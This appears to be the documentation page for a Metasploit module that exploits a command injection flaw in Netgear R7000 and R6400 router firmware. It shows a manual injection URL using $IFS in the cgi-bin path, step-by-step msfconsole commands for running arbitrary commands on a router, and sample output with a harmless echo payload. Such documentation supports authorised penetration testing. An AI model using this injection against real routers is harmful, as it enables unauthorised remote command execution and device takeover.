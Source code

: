 The netgear_r7000_command_injection module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/http/netgear_r7000_command_injection`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set CMD "Command to execute"`
  5. Do: `run`
  6. If the router is running the vulnerable firmware, the command should run.

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **CMD**

  This is the command to execute on the router. If you input spaces, they will be converted to `$IFS` when running the command.

## Scenarios

  Sample output of what it should look like. 

  ```
  msf > use auxiliary/scanner/http/netgear_r7000_command_injection
msf auxiliary(netgear_r7000_command_injection) > options

Module options (auxiliary/scanner/http/netgear_r7000_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD                       yes       Command line to execute
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The remote target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(netgear_r7000_command_injection) > set CMD echo "cowsay"
CMD => echo 'cowsay'
msf auxiliary(netgear_r7000_command_injection) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(netgear_r7000_command_injection) > check
[*] 192.168.1.1:80 The target service is running, but could not be validated. 
msf auxiliary(netgear_r7000_command_injection) > run

[*] Sending request to 192.168.1.1
[*] Auxiliary module execution completed
msf auxiliary(netgear_r7000_command_injection) > 
  ```
